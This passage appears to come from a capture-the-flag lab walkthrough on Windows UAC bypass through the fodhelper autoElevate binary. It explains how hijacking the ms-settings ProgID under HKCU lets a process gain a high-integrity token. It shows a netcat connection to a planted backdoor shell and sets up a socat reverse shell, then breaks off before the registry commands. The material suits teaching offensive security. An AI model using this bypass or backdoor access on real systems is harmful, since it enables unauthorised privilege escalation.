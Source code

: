 In reality, HKEY_CLASSES_ROOT is just a merged view of two different paths on the registry:

| **Path**                            | **Description**                 |
| ----------------------------------- | ------------------------------- |
| HKEY_LOCAL_MACHINE\Software\Classes | System-wide file associations   |
| HKEY_CURRENT_USER\Software\Classes  | Active user's file associations |

When checking HKEY_CLASSES_ROOT, if there is a user-specific association at **HKEY_CURRENT_USER (HKCU)**, it will take priority. If no user-specific association is configured, then the system-wide association at **HKEY_LOCAL_MACHINE (HKLM)** will be used instead. This way, each user can choose their preferred applications separately if desired.

Going back to fodhelper, we now see that it's trying to open a  file under the ms-settings ProgID. By creating an association for that  ProgID in the current user's context under HKCU, we will override the  default system-wide association and, therefore, control which command is used to open the file. Since fodhelper is an autoElevate executable,  any subprocess it spawns will inherit a high integrity token,  effectively bypassing UAC.

### Putting it all together

One of our agents has planted a backdoor on the target server  for your convenience. He managed to create an account within the  Administrators group, but UAC is preventing the execution of any privileged tasks. To retrieve the  flag, he needs you to bypass UAC and get a fully functional high IL  shell.

- **To connect to the backdoor, you can use the following command:**

```
nc 10.10.186.4 9999
```

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

- **Attacker's Shell**        

```shell-session
user@kali$ nc 10.10.186.4 9999
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
        
```

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

